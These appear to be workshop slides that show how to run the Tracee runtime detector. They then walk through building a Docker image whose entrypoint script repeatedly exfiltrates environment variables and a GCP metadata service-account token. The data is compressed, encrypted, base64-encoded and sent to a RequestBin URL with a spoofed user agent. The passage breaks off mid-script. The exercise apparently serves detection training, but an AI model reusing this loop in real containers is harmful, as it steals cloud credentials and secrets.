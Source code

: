 ### Slide 48 - Starting Tracee

Start a new terminal window
```
docker run --name tracee -d --rm --pid=host --cgroupns=host --privileged -v /etc/os-release:/etc/os-release-host:ro \
-e LIBBPFGO_OSRELEASE_FILE=/etc/os-release-host aquasec/tracee:latest
```

```
docker logs tracee --follow 2>$1 |grep MatchedPolicies
```

### Slide 49 - Create a Dockerfile

```
cd ~ && mkdir imagetest && cd imagetest && vi Dockerfile
```

Note: Go to requestbin.com and choose the public bin link below the large Create Request Bin button

### Slide 50 - Create a Dockerfile

Paste the below contents into the vi after hitting `i` for insert
```
FROM ubuntu:20.04
RUN groupadd -g 999 usertest && \
useradd -r -u 999 -g usertest usertest
RUN apt update && apt install -y curl tini
COPY ./docker-entrypoint.sh /docker-entrypoint.sh
RUN chmod +x docker-entrypoint.sh
USER usertest
# Go to requestbin.com and get a public url and replace REQUESTBIN_URL below
ENV URL REQUESTBIN_URL
ENV UA "Mozilla/5.0 (BeOS; U; BeOS BePC; en-US; rv:1.8.1.7) Gecko/20070917 BonEcho/2.0.0.7"
# Replace HANDLE with your l33t hacker name or some other identifying designation
ENV USER HANDLE
# add a password 
ENV PW PASSWORD
ENTRYPOINT ["/usr/bin/tini", "--", "/docker-entrypoint.sh"]
```
> After pasting, hit `[ESC]`, then type `:wq`


### Slide 51 - Create an entrypoint script

```
vi docker-entrypoint.sh
```

### Slide 52 - Create an entrypoint script

Paste the below script into the vi after hitting `i` for insert 
```
#!/usr/bin/env bash

if [ "shell" = "${1}" ]; then
  /bin/bash
else
 while true
 do
	sleep 30
	curl -s  -X POST -A "${UA}" -H "X-User: ${USER}" -H "Cookie: `uname -a | gzip | base64 -w0`" -d \
`{ env && curl -s -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token; } | gzip | openssl enc -e -aes-256-cbc -md sha512 -pbkdf2 -salt -a -pass "pass:${PW}" | base64 -w0` \
$URL
```